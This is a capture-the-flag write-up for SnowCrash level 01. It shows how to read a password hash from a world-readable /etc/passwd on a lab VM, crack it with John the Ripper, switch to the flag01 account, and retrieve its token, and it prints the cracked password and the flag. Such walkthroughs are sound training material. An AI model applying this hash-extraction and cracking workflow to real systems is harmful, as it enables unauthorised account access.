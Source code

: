 # Level 01

## Vulnerability
Password stored in publicly readable file, weak encryption

## Solution
First step, look for flag01 password.
For some reason we have read rights on /etc/passwd...
```
level01@SnowCrash:~$ ls -l /etc/ | grep 'passwd'
-rw-r--r-- 1 root root    2477 Mar  5  2016 passwd
```

This is where user account details are stored. Let's look inside. 
Note: [the second field](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) is the password.
```
level01@SnowCrash:~$ grep 'flag01' /etc/passwd
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

level01@SnowCrash:~$ grep 'flag01' /etc/passwd | cut -d ':' -f 2
42hDRfypTqqnw
```

Copy the password to your home machine (outside of the VM). 
```
scp -P4242 level01@{VM_IP}:/etc/passwd vm_passwd
```

Cut out user flag01's password and save in a new file. 
```
grep 'flag01' vm_passwd | cut -d ':' -f 2 >> password
```

Next, install JohnTheRipper (a popular password cracker) and run on the password. 
```
git clone https://www.github.com/magnumripper/JohnTheRipper john
cd john/src
./configure LDFLAGS=-L$HOME/.brew/opt/openssl/lib CPPFLAGS=-I$HOME/.brew/opt/openssl/include
make -s clean && make -sj4
cd john/run
./john --show ../../level01/password
abcdefg
1 password hash cracked, 0 left
```

Let's try to log in to user flag01...
```
level01@SnowCrash:~$ su flag01
Password: abcdefg
```

Run getflag!
```
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```
